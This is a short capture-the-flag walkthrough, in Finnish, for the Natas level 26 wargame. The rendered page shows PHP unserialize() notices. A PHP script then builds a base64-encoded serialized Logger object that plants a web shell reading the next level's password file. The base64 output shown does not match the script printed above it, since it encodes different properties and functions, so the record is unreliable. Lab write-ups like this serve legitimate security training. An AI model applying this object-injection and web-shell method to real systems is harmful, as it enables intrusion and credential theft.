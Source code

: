 ```

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form>

<br />
<b>Notice</b>:  unserialize(): Error at offset 0 of 19 bytes in <b>/var/www/natas/natas26/index.php</b> on line <b>70</b><br />
<img src="img/natas26_rs3osgd2663cmb9c518rmq2goq.png"><br />
<b>Notice</b>:  unserialize(): Error at offset 0 of 19 bytes in <b>/var/www/natas/natas26/index.php</b> on line <b>98</b><br />

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```



**PHP koodia vähäsen** käyttöön.
```
┌──(kali㉿kali)-[~/Desktop/php-koodi]
└─$ cat logger1.php     
<?php
# this is for natas26 level
class Logger{
    private $logFile;
    private $exitMsg;

    function __construct(){
        $this->exitMsg= "<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>";
        $this->logFile = "/var/www/natas/natas26/img/natas26_rs3osgd2663cmb9c518rmq2goq.php";
    }
}

$logger = new Logger();
echo base64_encode(serialize($logger));



┌──(kali㉿kali)-[~/Desktop/php-koodi]
└─$ php logger1.php      
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo0MjoiaW1nL25hdGFzMjZfcnMzb3NnZDI2NjNjbWI5YzUxOHJtcTJnb3EucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MTk6IkFueXRoaW5nIGdvZXMgaGVyZQoiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo2MzoiPD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4KIjt9
```
